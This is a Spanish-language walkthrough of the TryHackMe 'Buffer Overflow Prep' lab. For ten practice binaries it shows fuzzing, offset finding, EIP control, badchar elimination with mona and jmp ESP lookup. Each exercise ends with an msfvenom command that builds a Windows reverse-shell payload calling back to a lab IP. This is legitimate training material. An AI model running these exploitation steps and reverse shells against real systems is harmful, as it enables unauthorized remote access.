


Esta sala esta enfocada a practicar bufferOverFlow encontrando el numero offset, luego los badchars. Además aprenderemos el uso de la herramienta de `Immunity Debugger` y usaremos unos scripts en Python para realizar el fuzzing para encontrar el offset, encontrar los badchars, obtener una shell de la maquina victima.


- Created by [Tib3rius](https://tryhackme.com/p/Tib3rius)
- Link [bufferOverFlowprep](https://tryhackme.com/room/bufferoverflowprep)

# OverFlow1

## Offset

Para encontrar el offset procederemos a realizar el fuzzing, que consiste en que nuestro script va enviar una cierta cantidad de caracteres en la en programa crashea

```php
❯ python3 fuzzingBuff.py
```

Enumerando con el script encontraremos el offset


Haciendo uso de `msf-pattern_create` para crear caracteres aleatorios con el fin de usarlo para encontrar el numero con el que el programa se corrompe

```php
❯ msf-pattern_create -l 2000
```


Volvemos a ejecutar el script, pero haciendo uso de los caracteres que generamos

```php
❯ python3 crashReplication_ContrllingEIP.py
```


Ahora, copiaremos los caracteres en hexadecimal que están en el `EIP`


Ahora teniendo `F43396E` haremos uso de `msf-pattern_offset` podremos encontrar el offset

```php
❯ msf-pattern_offset -q 6F43396E
```



## Control del EIP

Luego de encontrar el offset agregaremos `BBBB` con el fin de corroborar que se tiene control 


Luego de ejecutar el script podemos observar el `EIP` y observamos `42424242`


Estos `42` no son mas que las 4 `B` que ingresamos y lo podemos comprobar de la siguiente manera

```php
❯ echo '0x42'| xxd -ps -r; echo
B
```

## Badchars

Haciendo uso de `mona` generaremos un array con el siguiente comando

```php
!mona bytearray
```

El badchars que se debe de eliminar es `\x00` que suele dar problemas en nuestro payload 

```php
!mona bytearray -cpb "\x00"
```

### Badchar N° 2


Luego ejecutaremos de nuevo nuestro script esto siempre y cuando que también quitemos el `\x00` de nuestro script de Python, luego  haremos uso de `mona` para realizar una comparación de los caracteres con el `ESP`.


```php
!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E3FA18
```

Entonces nos encontraremos con lo siguiente 


Debemos de tener en cuenta que si un carácter ocasiona un error esto puede causar que otro carácter también  de un error, por lo que nuestro segundo badchar será `\x07`. Luego de obtener este badchar la quitaremos de nuestro bytearray de nuestro directorio de trabajo y nuestro script.

```php
!mona bytearray -cpb "\x00\x07"
```

### Badchar N° 3 

Ejecutaremos nuestro script de nuevo, luego obtendremos el `ESP` para ejecutar lo siguiente

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00A6FA18
```

Luego de ejecutar obtendremos el tercer badchar que es `\x2e` 


 Luego de obtener este badchar la quitaremos de nuestro bytearray de nuestro directorio de trabajo y nuestro script.

```php
!mona bytearray -cpb "\x00\x07\x2e"
```

### Badchar N° 4

Ejecutaremos nuestro script de nuevo, luego obtendremos el `ESP` para ejecutar lo siguiente

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0110FA18
```

Luego de ejecutar obtendremos el tercer badchar que es `\xa0` 


 Luego de obtener este badchar la quitaremos de nuestro bytearray de nuestro directorio de trabajo y nuestro scrip
 
```php
!mona bytearray -cpb "\x00\x07\x2e\xa0"
```

Al ejecutar de nuevo nuestro script y luego hacer el proceso anterior, obtenemos el ESP y hacemos la comparación por lo que encontraremos.

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0107FA18
```

Que ya no se tiene ningún badchar


## Obteniendo la dirección de jmp ESP

Para obtener la dirección de jmp ESP haremos uso de los badchars con lo siguiente comando

```php
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

Con el anterior podremos obtener la dirección de ESP, como podemos en la siguiente imagen


La dirección que obtenemos es: `0x625011AF` 

Lo que haremos con esta dirección será ponerla de manera contraria para luego colocarla en nuestro script

```php
\xAF\x11\x50\x62
```

La siguiente imagen muestra la dirección colocada en nuestro script


## Generando payload

Ahora usaremos `msfvenom` para generar nuestro payload y haciendo uso de los badchars que no queremos que tenga en cuenta al generar

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x07\x2e\xa0" -f c
```

Luego de generar nuestro payload, insertaremos en nuestro script y ejecutaremos, antes debemos de ponernos a la escucha con `ncat`

## Shell


Luego de ejecutar nuestro script obtenemos nuestra shell de la maquina victima

# OverFlow2 

## Offset

Para obtener una el offset haremos uso de fuzzing que enviara cierta cantidad de caracteres 


Haciendo uso de `msf-pattern_create` generaremos 700 caracteres con el fin de hacer uso y encontrar el offset

```php
❯ msf-pattern_create -l 700
```

Agregaremos a nuestro código los caracteres generados como se muestra en la siguiente imagen.


Luego de ejecutar y obtener lo que se encuentra en el `EIP` y haciendo uso de `msf-pattern_offset` obtendremos el offset que en este caso es 634

```php
❯ msf-pattern_offset -q 76413176
[*] Exact match at offset 634
```

## Control de EIP

Para comprobar si tenemos control del EIP agregaremos 4 `B` en nuestro código después de las 634 `A` como se hizo en la tarea anterior.

```php
❯ echo '0x42'| xxd -ps -r; echo
B
```

## Badchars

Luego de tener el control del EIP procederemos a encontrar lo badchars
### Badchar N° 1

El badchars que siempre se debe de considerar es el `\x00` el cual suele dar inconvenientes 

```php
!mona bytearray -cpb "\x00"
```

Debemos quitar de nuestro archivo bytearray y nuestro script de python
### Badchar N° 2

Luego de volver a ejecutar nuestro script y obtener la dirección del ESP ejecutamos lo siguiente 

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00A9FA18
```


Como se menciono en la primer overFlow un badchar puede ocasionar que otro genere inconvenientes y luego te reporte y así, por lo que solo debemos de tomar en cuenta el siguiente de `\x00` o el primer badchar que nos da luego del ultimo. En nuestro caso es `\x23`.

Luego procederemos a quitarlo del bytearray y nuestro script de python

```php
!mona bytearray -cpb "\x00\x23"
```

### Badchar N° 3

Luego de volver a ejecutar nuestro script y obtener la dirección del ESP ejecutamos lo siguiente 

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010EFA18
```

Obtenemos el siguiente badchar que es:  `\x3c`


Eliminamos el badchar que encontramos

```php
!mona bytearray -cpb "\x00\x23\x3c"
```

### Badchar N° 4

Luego de volver a ejecutar nuestro script y obtener la dirección del ESP ejecutamos lo siguiente 

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010CFA18
```

Obtenemos el siguiente badchar que es:  `\x83`


Eliminamos el badchar que encontramos

```php
!mona bytearray -cpb "\x00\x23\x3c\x83"
```

### Badchar N° 5

Luego de volver a ejecutar nuestro script y obtener la dirección del ESP ejecutamos lo siguiente 

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010CFA18
```

Obtenemos el siguiente badchar que es:  `\xba` y eliminamos el badchar que encontramos

```php
!mona bytearray -cpb "\x00\x23\x3c\x83\xba"
```

Luego de volver a repetir el proceso ya no nos mostrara ningun badchar


## Obteniendo la dirección de jmp ESP

Para obtener la dirección de jmp ESP haremos uso de los badchars con lo siguiente comando

```php
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

Con el anterior podremos obtener la dirección de ESP, como podemos en la siguiente imagen


La dirección que obtenemos es:`0x625011AF`

Lo que haremos con esta dirección será ponerla de manera contraria para luego colocarla en nuestro script

```php
\xAF\x11\x50\x62
```

## Generando payload

Ahora usaremos `msfvenom` para generar nuestro payload y haciendo uso de los badchars que no queremos que tenga en cuenta al generar

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x23\x3c\x83\xba" -f c
```

Luego de generar nuestro payload, añadiremos en nuestro script 


## Shell

Luego de generar nuestro payload, insertaremos en nuestro script y ejecutaremos, antes debemos de ponernos a la escucha con `ncat`


# OverFlow3

## Offset
```php
Fuzzing crashed at 1300 bytes
```

```php
❯ msf-pattern_create -l 1300
```

```php
❯ msf-pattern_offset -q 35714234
[*] Exact match at offset 1274
```

## Badchars

```php
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EBFA18
!mona bytearray -cpb "\x00\x11"
!mona bytearray -cpb "\x00\x11\x40"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00DCFA18
!mona bytearray -cpb "\x00\x11\x40\x5f"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
!mona bytearray -cpb "\x00\x11\x40\x5f\xb8"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
!mona bytearray -cpb "\x00\x11\x40\x5f\xb8\xee"
!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"
```


```php
0x62501203
```

```php
\x03\x12\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x11\x40\x5f\xb8\xee" -f c
```


## Shell


# OverFlow4

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
...
Fuzzing crashed at 2100 bytes
```

```php
❯ msf-pattern_create -l 2100
```

```php
❯ msf-pattern_offset -q 70433570
[*] Exact match at offset 2026

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0104FA18
!mona bytearray -cpb "\x00\xa9"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00CDFA18
!mona bytearray -cpb "\x00\xa9\xcd"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FFFA18
!mona bytearray -cpb "\x00\xa9\xcd\xd4"

!mona compare -f C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0113FA18
```

## Obteniendo la dirección de jmp ESP

```php
\x00\xa9\xcd\xd4
```

```php
!mona jmp -r esp -cpb "\x00\xa9\xcd\xd4"
```


```php
0x625011AF
```

```php
\xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\xa9\xcd\xd4" -f c
```


## Shell


# OverFlow5
## Offset
```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing crashed at 400 bytes
```

```php
❯ msf-pattern_create -l 400
```

```php
❯ msf-pattern_offset -q 356B4134
[*] Exact match at offset 314
```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F5FA18
!mona bytearray -cpb "\x00\x16"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EDFA18
!mona bytearray -cpb "\x00\x16\x2f"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0108FA18
!mona bytearray -cpb "\x00\x16\x2f\xf4"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0139FA18
!mona bytearray -cpb "\x00\x16\x2f\xf4\xfd"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
```


```php
\x00\x16\x2f\xf4\xfd
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x16\x2f\xf4\xfd"
```


```php
0x625011AF
```

 ```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x16\x2f\xf4\xfd" -f c
```



## Shell


# OverFlow6

## Offset

```php
❯ python3 fuzzingBuff.py
.
.
.
Fuzzing with 1100 bytes
Fuzzing crashed at 1100 bytes

```

```php
❯ msf-pattern_create -l 1100
```

```php
❯ msf-pattern_offset -q 35694234
[*] Exact match at offset 1034

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 6F43396E
!mona bytearray -cpb "\x00\x08"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010CFA18
!mona bytearray -cpb "\x00\x08\x2c"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0104FA18
!mona bytearray -cpb "\x00\x08\x2c\xad"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F3FA18
```

```php
"\x00\x08\x2c\xad"
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x08\x2c\xad"
```


```php
0x625011AF
```

```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x08\x2c\xad" -f c
```


## Shell


# OverFlow7

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing crashed at 1400 bytes

```

```
❯ msf-pattern_create -l 1400
```

```php
❯ msf-pattern_offset -q 72423572
[*] Exact match at offset 1306

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011FFA18
!mona bytearray -cpb "\x00\x8c"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
!mona bytearray -cpb "\x00\x8c\xae"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0107FA18
!mona bytearray -cpb "\x00\x8c\xae\xbe"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0103FA18
!mona bytearray -cpb "\x00\x8c\xae\xbe\xfb"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F5FA18
```

```php
 "\x00\x8c\xae\xbe\xfb"
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb  "\x00\x8c\xae\xbe\xfb"
```


```php
625011AF
```


```php
 \xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x8c\xae\xbe\xfb" -f c
```

```php
❯  msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x8c\xae\xbe\xfb" -f c

```


## Shell


# OverFlow8

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing with 1800 bytes
Fuzzing crashed at 1800 bytes
```

```php
❯ msf-pattern_create -l 1800
```

```php
❯ msf-pattern_offset -q 68433568
[*] Exact match at offset 1786

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011EFA18
!mona bytearray -cpb "\x00\x1d"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00DDFA18
!mona bytearray -cpb "\x00\x1d\x2e"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0118FA18
!mona bytearray -cpb "\x00\x1d\x2e\xc7"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0100FA18
!mona bytearray -cpb "\x00\x1d\x2e\xc7\xee"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FFFA18
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```


```php
625011AF
```

```php
\xAF\x11\x50\x62

```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x1d\x2e" -f c
```


## Shell


# OverFlow9

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
.
.
.
Fuzzing crashed at 1600 bytes
```

```php
❯ msf-pattern_create -l 1600

```

```php
❯ msf-pattern_offset -q 35794234
[*] Exact match at offset 1514

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00FAFA18
!mona bytearray -cpb "\x00\x04"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0106FA18
!mona bytearray -cpb "\x00\x04\x3e"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 010AFA18
!mona bytearray -cpb "\x00\x04\x3e\x3f"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0123FA18
!mona bytearray -cpb "\x00\x04\x3e\x3f\xe1"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F1FA18

```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```


```php
625011AF
```

```php
\xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x04\x3e\x3f\xe1" -f c
```


## Shell


# OverFlow10

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing crashed at 600 bytes

```

```php
❯ msf-pattern_create -l 600

```

```php
❯ msf-pattern_offset -q 41397241
[*] Exact match at offset 537

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011EFA18
!mona bytearray -cpb "\x00\xa0"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E8FA18
!mona bytearray -cpb "\x00\xa0\xad"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E8FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0103FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe\xde"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00E4FA18
!mona bytearray -cpb "\x00\xa0\xad\xbe\xde\xef"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00EFFA18
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\xa0\xad\xbe\xde\xef"
```


```php
625011AF
```

```php
\xAF\x11\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\xa0\xad\xbe\xde\xef" -f c
```


## Shell


